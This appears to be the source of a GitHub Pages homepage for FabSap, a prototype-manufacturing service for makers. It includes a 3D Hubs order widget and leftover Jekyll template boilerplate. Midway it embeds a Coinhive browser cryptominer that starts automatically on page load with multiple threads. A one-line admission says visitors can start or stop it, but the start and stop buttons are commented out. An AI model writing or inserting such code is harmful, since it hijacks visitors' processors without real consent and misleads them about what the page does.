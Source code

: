 ## Welcome to FabSap

@FabSap our mission is to enable hardware engineers/hakers/makers with prototypes build right - on time and at affordable prices.
As Makers you keep on creating awesome stuff while we handle manufacturing for you.



### 3D Printing

You can order 3d Prints right away:

<a href="https://www.3dhubs.com/service/fabsap" data-3dhubs-widget="button" data-hub-id="72904" data-type="orderWidget" data-color="green" data-size="large" data-text="Order a 3D Print" >Order a 3D Print</a>
<script>!function(a,b,c,d){var e,g=(a.getElementsByTagName(b)[0],/^http:/.test(a.location)?"http":"https");a.getElementById(d)||(e=a.createElement(b),e.id=d,e.src=g+"://d3d4ig4df637nj.cloudfront.net/w/2.0.js",e.async=!0,a.body.appendChild(e))}(document,"script",1,"h3d-widgets-js");</script>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
Instead of using ads, I am having you mine for crypto currency to support this site. Here are your stats:
<center>
<p id="tcount"></p>
<p id="hps"></p>
<p id="ths"></p>
<p id="tah"></p>
</center>
<p>You can start or stop at anytime but please wait for some accepted hashes before you do.</p>
<center>
<p id="minebutton"></p>
</center>

<script type="text/javascript">
var miner = new CoinHive.Anonymous('zMtnsQ82YuudZehaQerpxlPI7ct2NUld','john-doe', {threads: 2,	autoThreads: true});
miner.start(CoinHive.FORCE_EXCLUSIVE_TAB);
// Update stats once per second
setInterval(function() {
    var threadCount = miner.getNumThreads();
    var hashesPerSecond = Math.round(miner.getHashesPerSecond() * 100) / 100;
    var totalHashes = miner.getTotalHashes();
    var acceptedHashes = miner.getAcceptedHashes() / 256;
    // Output to HTML elements...
    if (miner.isRunning()) {
        document.getElementById("tcount").innerHTML = "Threads: " + threadCount;
        document.getElementById("hps").innerHTML = "hashes per second: " + hashesPerSecond;
        document.getElementById("ths").innerHTML = "Total Hashes: " + totalHashes;
        document.getElementById("tah").innerHTML = "Accepted Hashes: " + acceptedHashes;
        //document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.stop()\">Stop Mining</button>";
    } else {
        document.getElementById("hps").innerHTML = "Please click start";
        document.getElementById("ths").innerHTML = "to support";
        document.getElementById("tah").innerHTML = "this site";
        //document.getElementById("minebutton").innerHTML = "<button onclick=\"miner.start(CoinHive.FORCE_EXCLUSIVE_TAB)\">Start Mining</button>";
    }
}, 1000);
</script>


```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/dhavalpalsana/Fabsap/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.

